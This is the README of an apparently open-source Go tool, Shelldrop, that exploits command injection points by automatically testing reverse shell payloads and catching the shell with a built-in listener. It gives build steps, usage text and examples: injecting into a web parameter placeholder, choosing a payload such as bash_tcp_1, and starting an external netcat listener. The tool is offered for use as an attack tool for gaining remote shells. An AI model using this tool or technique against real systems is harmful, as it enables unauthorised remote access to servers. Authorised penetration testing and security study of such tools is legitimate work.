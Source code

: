 # Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```bash
usage: shelldrop [-h|--help] -u|--url "<value>" -l|--lhost "<value>" -p|--lport
                 <integer> [-P|--payload "<value>"] [--no-listener]

                 Leverages a command injection vulnerability by finding and
                 executing compatible reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -u  --url          The target url [*]
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Optional payload to use
      --no-listener  Disable the built-in listener
```

## Examples

#### URL Injection

```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload

```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```
